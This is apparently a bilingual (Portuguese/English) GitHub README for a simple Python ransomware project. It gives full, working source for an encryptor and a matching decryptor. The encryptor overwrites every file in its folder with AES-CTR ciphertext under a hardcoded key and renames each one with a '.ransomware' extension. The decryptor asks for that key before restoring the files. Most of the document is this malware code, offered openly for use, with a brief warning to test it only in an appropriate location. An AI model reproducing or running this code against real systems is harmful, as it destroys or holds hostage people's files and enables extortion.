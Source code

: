 # Projeto em Python de um Ransomware (PT-BR)

### Funcionamento

- O intuito deste projeto é criar um Ransomware que criptografe arquivos presentes na pasta onde o Malware está.

- Este Ransomware é dividido em dois executaveis, um deles terá a função de criptografar os arquivos e o outro terá o objetivo de descriptografa-los futuramente.

### Código de Criptografia

- O executavel abre todos os arquivos presentes na pasta onde ele se encontra, verificando se já não estão criptografados ou se não são os próprios executaveis.

- Após abrir cada arquivo presente na pasta ele copia os dados e os criptografa, reescrevendo em seguida o arquivo. Ele também substitui a estenção do arquivo para ".ransomware".

```python
import os
import pyaes

for name in os.listdir("./"):
    if name != "decrypt.py" and name != "encrypt.py":
        with open(name, "rb") as file:
            file_data = file.read()

        key = b"secretencryptkey"
        aes = pyaes.AESModeOfOperationCTR(key)

        data_encrypt = aes.encrypt(file_data)

        with open(name, "wb") as file:
            file.write(data_encrypt)

        os.rename("./{}".format(name), "./{}.ransomware".format(name))
```

- A chave de criptografia utilizada foi "secretencryptkey", essa chave será utilizada futuramente durante a descriptografia.

### Código de Descriptografia

- Para que o processo se inicie, o executavel exige que o usuário digite a mesma chave de criptografia que foi utilizada para criptografar os arquivos anteriormente. Se digitado corretamente, o processo se inicia, caso contrário, ele apenas retorna a mensagem "Wrong Key!" para o usuário.

- Após a chave de criptografia ser informada corretamente, o executável abre todos os arquivos presentes na pasta, verificando não são os próprios executáveis e se contém a extensão ".ransomware". Com isso, apenas os arquivos que já haviam sido criptografados serão abertos.

- Para cada arquivo aberto, o executável copia dos dados, os descriptografa e reescreve o arquivo. Para finalizar, ele exclui a extensão ".ransomware". Fazendo com que o arquivo volte a seu estado original descriptografado.

```python
import os
import pyaes

secret = input("What the secret key?")

if secret == "secretencryptkey":
    for name in os.listdir("./"):
        if name != "decrypt.py" and name != "encrypt.py" and name.split(".")[-1] == "ransomware":
            with open(name, "rb") as file:
                file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                list = name.split(".")
                new_name = "{}.{}".format(list[0],list[1])
                os.rename("./{}".format(name), "./{}".format(new_name))
else:
    print("Wrong Decrypt Key!")
```

### Resultados

- 

### Considerações Finais

- Diferentemente de um Ransomware real, o desenvolvido neste projeto apenas criptografa os arquivos presentes na pasta onde os executaveis se encontram, logo, CUIDADO com os testes realizados fora de um local de testes apropriado.

- Este projeto ainda está em desenvolvimento e sendo atualizado.

# Ransomware Project in Python (EN-US)

### Functionality

- The purpose of this project is to create a Ransomware that encrypts files present in the folder where the Malware is.

- This Ransomware is divided into two executables, one of which will have the function of encrypting the files and the other will have the purpose of decrypting them in the future.

### Encryption Code

- The executable opens all the files in the folder where it is located, checking whether they are already encrypted or whether they are not the executables themselves.

- After opening each file in the folder, it copies the data and encrypts it and then rewrites the file. It also replaces the file extension with ".ransomware".

```python
import os
import pyaes

for name in os.listdir("./"):
    if name != "decrypt.py" and name != "encrypt.py":
        with open(name, "rb") as file:
            file_data = file.read()

        key = b"secretencryptkey"
        aes = pyaes.AESModeOfOperationCTR(key)

        data_encrypt = aes.encrypt(file_data)

        with open(name, "wb") as file:
            file.write(data_encrypt)

        os.rename("./{}".format(name), "./{}.ransomware".format(name))
```

- The encryption key used was "secretencryptkey", this key will be used later during decryption.

### Decryption Code

- For the process to start, the executable requires the user to enter the same encryption key that was used to encrypt the files previously. If entered correctly, the process starts, otherwise, it simply returns the message "Wrong Key!" to the user.

- After the encryption key is entered correctly, the executable opens all files in the folder, checking if they are not the executables themselves and if they contain the ".ransomware" extension. This means that only files that had already been encrypted will be opened.

- For each file opened, the executable copies the data, decrypts it, and rewrites the file. Finally, it deletes the ".ransomware" extension. This returns the file to its original decrypted state.

```python
import os
import pyaes

secret = input("What the secret key?")

if secret == "secretencryptkey":
    for name in os.listdir("./"):
        if name != "decrypt.py" and name != "encrypt.py" and name.split(".")[-1] == "ransomware":
            with open(name, "rb") as file:
                file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                list = name.split(".")
                new_name = "{}.{}".format(list[0],list[1])
                os.rename("./{}".format(name), "./{}".format(new_name))
else:
    print("Wrong Decrypt Key!")
```

### Results

- 

### Final Considerations

- Unlike real Ransomware, the one developed in this project only encrypts the files present in the folder where the executables are located, therefore, BE CAREFUL with tests performed outside an appropriate testing location.

- This project is still under development and being updated.

